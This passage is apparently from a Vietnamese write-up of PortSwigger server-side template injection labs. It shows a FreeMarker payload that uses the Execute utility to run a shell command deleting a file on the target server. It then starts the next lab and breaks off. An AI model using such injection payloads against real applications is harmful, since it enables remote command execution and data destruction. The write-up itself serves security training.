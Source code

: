 => Thành công, website có thể bị tấn công SSTI.

Search payload để xóa file `morale.txt` trên chatgpt:

    <#assign ex="freemarker.template.utility.Execute"?new()> ${ex("rm /home/carlos/morale.txt")}

Thử chèn payload này vào template:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Server-side_template_injection/images/image21.png?raw=true)

## Lab: Server-side template injection in an unknown language with a documented exploit
**1. Yêu cầu**

Lab này có lỗ hổng Server-side Template Injection. Để giải quyết, bạn cần xác định công cụ template đang được sử dụng, sau đó tìm một khai thác (exploit) đã được ghi nhận trên mạng mà bạn có thể dùng để thực thi mã tùy ý, và cuối cùng là xóa tệp morale.txt khỏi thư mục chính của Carlos.

**2. Thực hiện**

Click vào xem chi tiết 1 sản phẩm thì thông báo `Unfortunately this product is out of stock` hiển thị:
